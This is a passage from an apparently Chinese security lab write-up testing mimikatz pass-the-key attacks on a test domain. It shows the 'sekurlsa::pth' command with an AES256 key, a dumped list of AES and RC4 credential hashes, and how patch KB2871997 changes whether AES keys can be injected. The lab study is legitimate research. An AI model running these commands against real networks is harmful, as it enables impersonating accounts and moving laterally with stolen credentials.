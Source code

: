 在测试主机上：

以管理员权限运行

```
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 

```

发现无法导入aes256

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/57dfcad7e47c45ef331ed28d9a1192c6de32f51f.jpg)

无法远程连接，如图![这里写图片描述](http://drops.javaweb.org/uploads/images/38c265fccb4923d425c1696ad3d4d99c62e68f32.jpg)

查看mimikatz的相关资料发现如下信息：

> ntlm hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable) ; AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case you can avoid ntlm hash.

根据提示，尝试在系统安装补丁kb2871997后继续测试

### 测试3：使用aes key远程连接（kb2871997 Installed）

已知信息：

```
* Username : a
* Domain   : TEST.LOCAL
* Key List :
    aes256_hmac       f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c
    aes128_hmac       8cce86e4b0630f07fcf5f2110068c421
    rc4_hmac_nt       efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old      efa85b42d77dc2fdbdbdb767792b0a11
    rc4_md4           efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_nt_exp   efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old_exp  efa85b42d77dc2fdbdbdb767792b0a11

测试主机：
安装kb2871997补丁

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/7e0f13cdd731048127389a8788c71e3548f19ac3.jpg)

在测试主机上：

以管理员权限运行

```
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 

```

可以成功导入aes256
